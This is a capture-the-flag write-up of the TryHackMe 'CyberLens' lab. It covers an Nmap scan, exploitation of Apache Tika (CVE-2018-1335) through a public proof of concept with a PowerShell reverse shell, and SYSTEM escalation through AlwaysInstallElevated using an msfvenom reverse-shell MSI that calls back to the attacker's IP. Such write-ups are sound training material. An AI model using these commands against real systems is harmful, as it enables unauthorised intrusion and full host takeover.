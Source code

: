 # THM - CyberLens

### Ip: 10.10.126.76
### Name: CyberLens
### Rating: Easy

------------------------------------------------

thm_cyberlens_pic.svg

### Challenge Description

```
Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags? 
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.126.76
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-15 10:20 CST
Warning: 10.10.126.76 giving up on port because retransmission cap hit (10).
Nmap scan report for cyberlens.thm (10.10.126.76)
Host is up (0.13s latency).
Not shown: 65408 closed tcp ports (reset), 111 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-15T16:22:01+00:00
|_ssl-date: 2025-01-15T16:22:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-01-14T16:05:07
|_Not valid after:  2025-07-16T16:05:07
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
| http-methods: 
|_  Potentially risky methods: PUT
|_http-cors: HEAD GET
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-15T16:21:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.61 seconds
```

Let's add cyberlens.thm to `/etc/hosts`.

Looking at the site we find a file upload that seems to extract metadata from images:

thm_cyberlens_site.png

I uploaded a copy of the screenshot above and it returned it's metadata:

thm_cyberlens_meta.png

Looking at port 61777 at http://cyberlens.thm:61777/ we find it is running Tika:

thm_cyberlense_tika.png

### Exploitation

Looking for exploits against Tika I find interesting writeup: https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/

Which also has a helpful POC script at: https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335

We can use this exploit script alongside a Base64 encoded PowerShell reverse shell oneliner from revshells.com and get a callback:

thm_cyberlens_shell.png

We can now grab the user.txt flag:

thm_cyberlens_user.png

### Privilege Escalation

We can load up PowerUp.ps1 to help enumerate a privilege escalation vector:

thm_cyberlens_powerup.png

Cool, looks like AlwaysInstallElevated is enabled.

We can manually confirm with:

```
PS C:\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\temp> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Let's now create a malicious reverse shell .msi file:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.72.91 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Once the file is transferred to the target we can set up a nc listener and run: `msiexec /quiet /qn /i reverse.msi`

Which catches us a shell back as system:

thm_cyberlens_system.png

And we can now grab the final flag:

thm_cyberlens_root.png

Thanks for following along!

-Ryan

-------------------------------------------------